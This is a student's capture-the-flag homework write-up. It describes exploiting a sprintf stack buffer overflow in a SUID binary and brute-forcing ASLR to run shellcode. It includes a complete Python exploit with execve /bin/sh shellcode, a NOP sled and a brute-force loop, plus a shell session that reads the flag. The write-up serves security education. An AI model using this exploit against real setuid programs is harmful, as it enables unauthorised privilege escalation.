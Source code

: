 # Homework #1 Write-up

## Personal Details
Full name: **Theodoros Moraitis** (Θεόδωρος Μωραΐτης) <br>
StudentID: **sdi2000150** (1115202000150) <br>
HackCenter username: **teomor** (provided in the `username` file too)

## Intro
In this write-up, I describe how I solved one of the challenges from the first Capture-The-Flag (CTF) Competition (Unix, Reverse Engineering & Binary Exploitation).
One of the most difficult and interesting challenges I solved was **Mission Impossible 1**.

## Mission Impossible 1: Brute-Forcing a Shellcode Injection into an ASLR binary
**Mission Impossible 1** is a binary-exploitation type of CTF challenge, in which the target is
a SUID binary (`/bomb/welcome`) running with `secret:secret` privileges (`-rwsr-sr-x 1 secret secret`) on a remote server, and the objective is to exploit it 
and read the flag at `/bomb/flag`, which also belongs to `secret` (`-rw-r----- 1 secret secret`). These privileges mean that I am, as guest-agent, able to run the `welcome` binary,
but not permitted to open the `flag` file. The challenge is made more difficult than a classic buffer overflow, as the binary (`/bomb/welcome`) has ASLR (Address Space Layout Randomization) enabled.
Luckily stack canaries are not present in the program (so we can overwrite the return address without triggering a stack smashing detection) and NX is disabled (so we are allowed to execute code on the stack).

## Vulnerability Details
After testing with gdb, disassembling and decompiling the `welcome` program I found that the vulnerability is in the vuln() function, which uses sprintf() to copy user input into a fixed-size stack buffer (char s[size]) without bounds checking (the size of the buffer seems to change in each ssh connection but it stays fixed in each one):
```c
sprintf(s, "Welcome, %s!", arg1);
```
This allows a stack buffer overflow attack.

## Exploitation Strategy
The strategy is a buffer overflow - control hijack attack: **[junk data][return address][nopsled][shellcode]**. <br>
But having ASLR enabled means that I cannot rely on fixed addresses for my return address overwrite pointing to my nopsled->shellcode. To overcome this, I tried a **brute-force approach**:

1. Determine Buffer Size: It seems that every time the remote shell is being run, the buffer size differs, so as soon as I ssh to the server I must quickly determine the buffer size and more specifically
how many bytes are needed to overwrite the return address (through iterative testing with gdb, I found that, in the successful run, sending 499 bytes of junk data ('A' characters) would overwrite the return address,
so 495 bytes was the exact amount of junk data needed).

3. Construct Payload:
    - Junk Data: 495 bytes to reach the return address.
    - Return Address: Multiple instances of a guessed stack address pointing into our NOP sled.
    - NOP Sled: A large sequence of NOP (\x90) instructions to increase the likelihood of landing in the shellcode.
    - Shellcode: Provided in the challenge, designed to execute /bin/sh.

4. Brute-Force Execution: Repeatedly execute the binary with the crafted payload until the return address correctly points into the nopsled, resulting in shellcode execution.

5. Successful Shell Access and `cat flag`

## Exploit Script
The following script was used to exploit the vulnerable program (`/bomb/welcome`). To run it I created an `exploit.py` file inside the `/home/agent` directory of the remote server where I had privileges to create it, make it executable with `chmod +x`, and execute it. So, this is the script:
```python
#!/usr/bin/python

import struct
from subprocess import Popen

# exec /bin/sh (shellcode given)
shellcode = b"\x31\xC0\xF7\xE9\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x68\x2D\x69\x69\x69\x89\xE6\x50\x56\x53\x89\xE1\xB0\x0B\xCD\x80"

bufsize = 495
nopsize = 4096

def prep_buffer(addr_buffer):
    buf = b"A" * (bufsize)                              # [junk data] (found to be 495 bytes in current execution, but it changes in every new ssh connection)
    buf += struct.pack("<I",addr_buffer+bufsize+4)*16   # [return address] (multiplied 16 times to be sure it overwrites the return address)
    buf += b"\x90" * nopsize                            # [nop sled] (a big enough nopsled, 4096 worked fine with the current brute force)
    buf += shellcode                                    # [shellcode] (exec /bin/sh)     
    return buf

def brute_aslr(buf):
    p = Popen(['/bomb/welcome', buf]).wait()

if __name__ == '__main__':
    addr_buffer = 0xffaa5540    # found after running the program in gdb in successful execution, this is the value of SP when the program segfaults and IP is 0x41414141
    buf = prep_buffer(addr_buffer)
    i = 0
    while True:                 # repeat - brute force the execution until the return address (overwritted) successfully hits into the nopsled->shellcode, and /bin/sh is executed
        print(i)
        brute_aslr(buf)
        i += 1
```

## Outcome
```bash
agent@ae628fb9c5db[00:05:12]:/bomb$ cat flag                                           
cat: flag: Permission denied
agent@ae628fb9c5db[00:05:12]:/bomb$ cd /home/agent
agent@ae628fb9c5db[00:06:23]:~$ ./exploit
...
~$ cat /bomb/flag
# flag 
```

## Resources
To understand what the program did and where the vulnerability lay, the following tools helped a lot: <br>
https://dogbolt.org/    <br>
https://hex-rays.com/ida-free    <br>
For the solution script I created, the following link was really helpful: <br>
https://taishi8117.github.io/2015/11/11/stack-bof-2/    <br>


